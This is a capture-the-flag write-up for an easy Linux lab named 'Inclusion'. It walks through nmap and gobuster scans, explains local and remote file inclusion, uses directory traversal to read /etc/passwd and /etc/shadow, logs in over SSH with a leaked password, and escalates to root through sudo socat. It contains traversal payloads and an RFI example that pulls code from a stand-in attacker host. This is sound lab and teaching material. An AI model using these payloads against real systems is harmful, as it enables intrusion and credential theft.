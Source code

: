 # INCLUSION

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `LFI`,  `socat`

---

##### Written: 17/05/2021

##### IP Address: 10.10.16.93

---

First, let's run a basic **nmap** scan on the target machine with standard scripts loaded and version enumeration configured. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are two services running on the target machine: **SSH** and **HTTP**. For the HTTP server, we can see that the http-title is **'My blog'**.

Let's first check out the HTTP webserver. Navigating to the website in our web browser, we come to this webpage:

<img style="float: left;" src="screenshots/screenshot2.png">

Before conducting our happy-path enumeration, we can start a **Gobuster** directory scan to see if we can obtain any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common extensions in our enumeration, such as **.php** and **.js**. We will also use Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan is going on, let's explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', will I have to carry out some form of **Local File Inclusion attack** using this search field?

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

<br>

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

<br>

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

<br>

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

<img style="float: left;" src="screenshots/screenshot4.png">

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

<img style="float: left;" src="screenshots/screenshot5.png">

The attack worked! The contents of the **/etc/passwd** file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

<img style="float: left;" src="screenshots/screenshot6.png">

Sure enough, I could read the **/etc/shadow** file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

 <img style="float: left;" src="screenshots/screenshot7.png">

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice, that was his password after all. 

**With that, I was able to log into falconfeast's account and obtain the user flag from his home directory.**

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like **linpeas**, I first did some manual enumeration first. 

First, I ran the command

```
sudo -l
```

to see what sudo privileges that falconfeast had.

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like he can run **socat** as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I decided to use socat to spawn a shell as root

<img style="float: left;" src="screenshots/screenshot10.png">

After running the command above, I managed to spawn a shell as root:

<img style="float: left;" src="screenshots/screenshot11.png">

**With that, I can easily navigate towards root's home directory and obtain the root flag**

